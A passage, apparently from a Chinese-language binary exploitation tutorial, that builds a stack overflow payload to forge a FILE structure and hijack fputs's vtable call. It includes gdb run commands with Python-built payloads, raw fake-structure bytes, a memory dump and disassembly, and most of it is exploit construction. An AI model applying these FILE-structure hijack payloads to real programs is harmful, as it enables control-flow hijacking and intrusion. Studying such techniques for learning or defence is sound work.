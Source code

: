 ```
\x86\x20\xad\xfb\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xba\xfb\xf7\x02\x00\x00\x00\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00\xac\xc8\xfb\xf7\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x00\x60\xbb\xfb\xf7\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x80\xaa\xfb\xf7\x00\x00\x00\x00\x00\x00\x00\x00

```

但是我们知道，由于 strcpy 的缘故，并不能容忍 \x00 的存在，我们直接替换成 A 就好了，因为没报错..XD

```
r "`python -c "print 'a'*881 + '\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\xba\xfb\xf7\x02AAAAAAA\xff\xff\xff\xffAAAA\xac\xc8\xfb\xf7\xff\xff\xff\xff\xff\xff\xff\xffAAAA\x60\xbb\xfb\xf7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\xaa\xfb\xf7AAAAAAAA' + '\xec\xd6\xff\xff'"`"

```

拿去跑一下，看看有什么问题没有。

![p4](http://drops.javaweb.org/uploads/images/84c836bac40c3dac6b09b96a0515b61ce935d4ce.jpg)

快看快看，我们到了最后 call 的地方了。

也就是说，程序运行到要从`_IO_file_jumps`取出指针，然后跳转了。但是遇到了一些小问题， eax 不符合预期。看一下上下文的汇编代码。

```
0xf7e7b239 <fputs+153>: movzx  edx,BYTE PTR [esi+0x46]
0xf7e7b23d <fputs+157>: movsx  edx,dl
0xf7e7b240 <fputs+160>: mov    eax,DWORD PTR [esi+edx*1+0x94]
0xf7e7b247 <fputs+167>: mov    DWORD PTR [esp+0x8],edi
0xf7e7b24b <fputs+171>: mov    DWORD PTR [esp+0x4],ebp
0xf7e7b24f <fputs+175>: mov    DWORD PTR [esp],esi
0xf7e7b252 <fputs+178>: call   DWORD PTR [eax+0x1c]

```

edx 是从 esi+0x46 处得来的一个字节的值，eax 是 esi+edx+0x94 处的值，最后 call eax+0x1c。

大体先看一下 esi+0x94 的样子：

```
gdb-peda$ x/10w $esi+0x94
0xffffd780: 0xf7fbaa80  0x41414141  0x41414141  0xffffd6ec
0xffffd790: 0x08048500  0x00000000  0x00000000  0xf7e2f4d3
0xffffd7a0: 0x00000002  0xffffd834

```

0xffffd6ec 是我们控制的 FILE 结构体的地址，剩下的两处 0x41414141 正好可以用来写一些值来控制 eax。当 edx 为 0x4~0x8 的时候，正好在这 8 个字节的 0x41 的范围内。

我们让 esi+0x46 处为 8，然后第二处 0x41414141 指向 FILE 结构体前面的一块内存。

```
r "`python -c "print 'a'*881 + '\x86\x20\xad\xfbAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x20\xba\xfb\xf7\x02AAAAAAA\xff\xff\xff\xffAA\x08A\xac\xc8\xfb\xf7\xff\xff\xff\xff\xff\xff\xff\xffAAAA\x60\xbb\xfb\xf7AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x80\xaa\xfb\xf7AAAA\xae\xd6\xff\xff' + '\xec\xd6\xff\xff'"`"

```
